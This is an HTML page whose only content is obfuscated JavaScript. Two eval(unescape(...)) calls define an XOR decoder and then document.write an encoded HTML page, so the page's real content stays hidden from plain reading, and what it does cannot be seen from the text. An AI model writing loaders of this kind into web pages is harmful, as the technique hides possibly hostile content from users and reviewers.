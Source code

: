 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%66%61%39%65%63%66%32%63%65%66%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%35%38%31%33%30%34%31%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%31%37%34%35%39%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%66%61%39%65%63%66%32%63%65%66%63%28%27') + '%3a%6f%74%6a%6e%41%09%0a%3f%6d%31%27%62%62%3a%26%73%6b%77%68%61%25%25%71%73%72%6a%62%3d%21%6f%62%72%6f%6a%77%38%27%3b%26%66%75%73%71%3c%70%61%7b%71%2b%66%67%6f%6c%72%39%22%64%61%76%77%60%70%38%2d%44%4a%4b%46%22%45%45%4f%50%57%4d%27%5f%50%52%57%53%22%4f%4d%56%46%52%26%61%72%26%42%64%6a%63%75%38%37%6b%32%44%0a%05%3a%6f%37%27%6b%67%39%22%77%6c%72%6b%6e%20%27%77%73%7b%6f%61%39%25%68%67%71%60%6f%75%3e%27%32%23%65%71%77%76%39%73%6e%7e%73%2d%66%6e%6a%6f%76%3d%25%61%62%79%72%62%76%38%24%41%40%5d%50%53%26%2a%2b%42%74%20%5e%71%76%72%24%50%7e%74%27%5d%63%70%65%66%74%64%6c%36%23%5c%75%72%7d%26%74%7b%75%22%67%61%63%6a%72%6f%74%79%2a%27%61%60%76%6a%77%76%23%64%74%63%2b%70%62%77%77%71%71%73%6d%65%6c%6a%6e%7f%7f%35%20%43%6b%62%69%77%71%61%26%6f%6a%74%63%77%26%22%57%7f%6d%77%71%63%71%48%26%4e%2d%43%5b%50%52%24%6e%76%26%75%6a%26%7e%61%75%22%62%62%65%22%25%3a%34%63%31%45%0d%09%22%23%09%0a%23%25%3a%63%62%7c%27%77%73%7b%6f%61%39%25%71%63%7f%7f%2b%66%6c%6e%69%71%3a%24%64%60%74%73%6e%70%38%26%45%56%76%69%65%77%64%74%6c%60%67%77%20%75%69%23%50%6d%73%25%69%66%63%6f%73%20%61%77%77%65%68%23%28%2b%45%49%26%3b%61%27%6a%75%61%6e%3e%23%6e%73%7f%76%70%3e%34%31%7b%71%69%6e%37%67%77%7b%35%63%65%73%67%64%70%37%75%60%77%72%6e%71%73%3e%71%44%70%7e%5e%57%30%49%30%4e%62%6a%73%4f%64%7b%3d%4f%39%43%67%6a%65%54%41%4c%57%4e%48%7e%7d%56%32%63%21%49%55%77%65%75%22%78%6d%70%6b%25%7e%72%66%6b%3b%33%66%40%3f%37%60%6a%7f%44%0a%05%26%27%0d%09%22%23%38%60%6a%7f%26%60%67%67%70%77%3a%24%6f%77%65%67%60%70%21%2b%71%73%79%6b%67%3e%22%69%62%73%6d%6e%79%38%27%30%27%63%76%70%77%3c%23%44%3b%38%62%6e%7a%45%0f%0d%09%0a%3f%71%67%61%67%63%27%67%6b%63%74%73%39%25%62%63%75%7f%63%71%26%45%0f%0d%24%24%3f%71%70%45%06%08%27%20%27%22%3f%70%60%41%39%76%27%62%62%3a%26%75%67%78%50%77%6c%60%74%70%2d%44%3b%33%77%40%3f%37%70%67%47%0b%09%2b%26%3b%33%73%74%41%09%0a%23%25%3a%70%6c%70%6e%70%73%40%0e%0a%24%23%7f%67%71%2b%41%4f%45%40%4d%46%40%67%4f%4c%51%53%2b%3b%27%5f%5a%3d%0e%0a%70%70%61%67%7e%2b%3b%27%72%62%79%23%40%65%77%60%2e%2e%34%26%73%73%63%63%7a%36%73%66%71%4e%74%7e%70%70%28%37%2b%3c%24%70%70%61%67%7e%39%71%62%74%4a%6b%71%71%70%66%72%2e%37%22%39%27%74%74%66%62%7d%36%74%60%72%50%6e%61%74%72%63%75%2b%34%2d%3c%08%08%6d%7e%74%60%74%6e%71%71%24%6c%77%71%76%4c%6e%72%2f%74%6f%67%56%72%68%2a%08%08%78%06%08%27%20%27%22%79%65%72%23%7d%6b%6b%43%72%73%70%27%3f%23%76%61%78%25%5e%4a%47%4e%73%74%77%54%66%75%71%66%72%72%2f%22%39%0a%0e%27%22%23%24%7c%6e%69%4e%73%7f%76%35%73%77%67%71%2c%24%25%4e%43%53%2d%2a%27%74%6f%67%56%72%68%2f%25%6c%66%67%71%62%20%2e%3d%23%37%37%23%6f%67%6b%7c%63%27%6a%74%74%23%73%7d%71%62%6e%71%78%74%74%75%70%22%75%61%75%76%60%71%73%06%08%27%20%27%22%7b%69%68%4b%71%72%77%39%71%62%72%63%2a%23%76%71%6f%69%26%2e%34%0b%09%20%27%22%23%72%61%77%70%70%75%2b%7e%6a%6c%4f%76%77%74%36%75%60%71%77%78%74%70%65%53%67%7b%70%3b%0e%0b%7b%0a%05%0b%09%6a%72%70%64%70%6d%70%77%26%6c%6e%72%40%75%71%74%66%76%63%7a%42%75%63%6e%2e%62%29%0a%0c%7c%09%0a%23%25%26%27%62%6c%27%28%62%2b%23%7b%09%0d%25%26%27%2b%26%27%20%27%6b%69%24%2c%37%35%26%3a%36%26%62%32%6b%67%71%6f%70%6b%25%2c%2d%2b%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%7f%6b%6c%6a%62%23%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%62%2b%3b%27%65%35%75%76%62%73%77%73%6f%75%60%2e%37%2c%27%67%31%68%61%71%6e%72%6f%2b%2b%27%36%2e%3d%23%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%79%23%25%26%0a%05%26%27%20%27%22%23%24%24%23%25%26%27%7d%63%73%75%71%70%23%6c%61%7b%33%67%2f%6e%2f%38%0d%09%22%23%24%24%23%25%26%27%76%0b%09%20%27%22%23%24%24%23%25%70%62%7f%73%71%72%27%67%0e%0a%24%23%25%26%7a%06%08%27%20%27%22%75%61%70%76%73%74%27%2d%20%0a%0e%7a%0f%0d%09%0a%69%70%74%60%7f%6f%74%72%27%6a%66%7c%32%62%2d%6e%62%73%7e%2e%20%78%0f%0d%24%24%23%25%7c%66%7d%26%6f%65%7f%22%3e%24%6c%66%7d%7e%35%7f%75%50%74%71%6b%71%6f%2c%2a%3a%35%34%61%75%71%67%62%22%64%77%76%79%60%70%70%62%75%75%0d%09%22%23%24%24%79%64%70%27%7c%72%71%20%3a%22%28%2f%3b%0e%0b%26%27%2b%26%6d%73%71%22%2b%7e%65%75%25%6f%27%36%26%37%3f%27%6b%23%38%24%6b%60%7e%35%67%63%75%6b%73%6a%3c%24%6d%23%2a%3b%27%3d%2f%0a%0e%27%22%23%24%24%23%25%26%70%7f%70%27%2f%3a%22%54%70%72%6a%77%6d%35%61%70%74%6d%40%6a%62%72%43%70%61%63%2f%7b%67%71%77%62%4b%71%70%2c%6b%60%7e%35%7c%73%61%77%73%74%2b%6d%28%23%33%2f%2b%2b%37%3d%29%2e%3d%0e%0a%24%23%25%26%71%6e%72%72%76%75%22%74%70%72%3c%08%08%7a%06%08%0a%0e%6d%77%71%63%70%6a%76%74%27%60%63%73%52%62%79%57%77%6b%66%77%71%2f%22%26%78%0d%09%22%23%63%77%71%72%75%6b%6e%34%6b%73%6c%2a%25%53%50%42%53%52%21%22%39%0a%0e%0a%0c%23%24%53%77%73%6f%75%60%34%77%76%74%76%70%70%7d%73%60%34%6e%79%4a%6e%77%73%3f%69%71%76%64%71%6f%74%79%2e%6b%69%70%76%2a%7b%09%0d%25%26%27%2b%70%62%74%72%74%71%24%2c%6f%6c%71%73%39%6f%75%64%62%7a%50%6e%2c%77%6d%6f%70%39%72%74%57%73%74%6a%76%6f%2b%2c%2f%27%2a%3b%27%2d%36%2b%0e%0a%24%23%78%0b%09%06%08%27%20%73%71%6c%61%76%74%25%3b%27%45%51%54%52%35%72%62%72%73%66%2d%6e%73%7f%76%4c%65%73%2a%25%6c%70%77%75%71%39%38%35%66%70%6e%30%7b%72%74%6f%61%67%73%6a%34%60%73%6a%31%62%74%6d%30%7f%37%34%7f%75%68%65%75%75%25%2d%2d%3c%08%08%27%2b%7c%66%76%27%76%70%70%65%6f%25%3b%27%3b%39%0a%0e%27%22%79%65%72%23%64%6a%6b%47%6f%75%6f%27%3f%23%2f%2f%3c%08%08%27%2b%7c%66%76%27%70%66%7f%50%70%6a%63%75%7c%26%3a%20%2c%29%3c%09%0a%23%25%6c%74%7d%2e%7d%61%71%22%77%77%6b%66%77%26%6e%79%26%73%73%68%67%71%73%36%6a%72%71%72%6e%70%70%29%27%7d%0e%0a%24%23%25%26%27%2b%7c%66%76%27%65%76%72%72%66%77%61%7e%4c%75%63%65%27%3f%23%6f%61%77%42%73%71%7d%63%75%67%7e%45%70%60%61%2b%71%75%68%6e%74%70%32%6e%75%74%71%61%75%72%59%73%78%69%62%72%5a%30%77%77%6b%66%77%71%58%3b%5b%35%67%72%74%75%61%76%64%7c%2f%38%06%08%27%20%27%22%23%24%7e%62%73%26%60%7d%63%66%74%62%66%47%65%70%66%25%3b%27%79%63%7c%20%43%63%77%61%2c%47%64%72%62%39%76%66%76%70%67%2b%70%77%6c%60%74%70%39%6f%70%77%72%67%75%73%5b%77%76%69%62%79%5b%35%74%74%6d%66%76%73%5c%35%5b%35%6c%70%62%61%73%67%67%36%60%62%71%63%2e%22%39%0a%0e%27%22%23%24%24%23%6c%6c%2f%6c%70%62%61%73%67%67%40%65%77%60%26%45%2b%72%74%64%66%7b%23%2e%2e%23%42%4e%42%4c%49%42%44%64%4e%4a%53%50%31%6c%74%63%6e%7e%54%6a%2f%65%76%72%72%66%77%61%7e%4c%75%63%65%2e%22%3e%39%24%2e%34%2f%27%74%0b%09%20%27%22%23%24%24%23%25%26%27%7f%75%73%61%6b%2d%2c%09%0a%23%25%26%27%2b%26%27%20%27%22%79%65%72%23%64%6b%74%7e%74%73%20%3a%22%77%77%6b%66%77%71%35%62%71%70%75%62%74%74%5b%70%70%6a%63%75%56%34%73%73%68%67%71%73%5b%33%58%34%66%66%75%72%72%73%3d%0e%0a%24%23%25%26%27%2b%26%27%20%27%78%62%72%24%76%73%6a%27%36%26%2c%68%73%76%73%73%3a%30%36%7e%72%66%6b%35%67%74%6f%6e%71%76%6a%71%7f%34%48%6f%70%77%72%67%75%39%2f%2c%25%72%74%64%63%75%20%28%22%25%2e%63%76%73%70%62%79%61%7e%3d%21%22%2c%24%63%76%73%70%62%79%61%7e%47%74%66%66%24%2b%23%2e%2c%6b%62%6b%6e%74%3a%29%23%2b%24%62%68%75%72%79%72%38%0d%09%22%23%24%24%23%25%26%27%2b%26%0a%0e%27%22%23%24%24%23%25%26%27%2b%7c%66%76%27%6d%7a%63%24%3e%25%72%74%64%63%75%77%35%6b%74%73%71%66%73%71%58%7f%75%68%65%75%5f%31%60%65%77%64%34%68%72%61%27%43%27%29%5a%41%53%28%25%38%27%20%54%54%2b%0a%0c%23%24%24%23%25%26%27%2b%26%27%61%6b%6e%4f%6d%76%6c%25%3b%27%6a%6a%6b%4c%6e%70%6c%24%2b%23%2e%65%64%68%65%64%63%64%61%60%67%67%60%66%65%64%68%65%64%44%5e%51%55%24%24%23%25%26%27%20%26%27%2f%27%22%77%77%70%62%69%26%28%2b%2d%3b%66%71%40%28%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%29%27%20%41%72%76%71%67%71%63%7d%3d%25%22%2c%2b%29%27%67%72%74%75%61%76%64%7c%41%74%6f%63%27%2f%27%29%3f%62%72%41%2e%26%28%2b%2d%48%59%40%3c%23%2f%24%2c%25%69%7e%6c%26%28%20%2c%3e%65%72%46%28%08%08%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%29%27%2b%40%74%66%65%70%66%61%26%63%6a%72%62%3e%27%29%23%2b%24%64%73%63%66%7f%63%63%44%66%76%66%24%2b%23%2e%26%7b%2b%2d%27%2f%27%29%57%77%70%62%69%26%73%7d%73%70%74%6b%6b%71%61%3a%23%2e%26%28%2b%72%74%6f%62%70%74%36%6d%74%72%73%62%7d%71%58%74%74%6d%66%76%59%31%71%75%68%6e%74%70%5f%37%5f%31%70%72%76%72%72%6b%62%74%62%77%27%2d%23%2f%38%65%73%44%2c%06%08%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%28%22%28%48%4d%51%4a%38%27%20%26%28%20%72%74%6f%36%68%6a%77%69%2f%7e%70%6b%29%27%2d%23%2f%38%65%73%44%2c%34%0b%09%20%27%22%23%24%24%7e%08%08%27%2b%7b%0a%0e%27%22%23%60%77%64%70%6b%62%79%72%35%6b%62%76%46%68%61%6e%60%74%73%4d%7f%4e%64%2f%24%71%61%7f%57%76%69%62%79%71%21%29%35%6b%71%76%61%75%4d%52%4a%47%26%3a%20%66%6e%6f%48%6d%71%6a%39%0a%05%26%27%67%74%70%74%77%68%66%37%6a%74%60%2e%2c%45%55%46%28%2d%3b%0e%0b%7b%0a%05%6d%62%74%55%67%78%50%77%6c%60%74%70%23%2f%38%0d%09%75%66%70%4d%71%71%63%71%71%67%6b%28%6c%67%77%56%61%78%51%75%68%6e%74%70%2c%27%36%36%34%34%33%2c%39%0a%05%3a%34%77%60%74%6a%74%70%4125813041%34%35%32%35%30%31%36' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

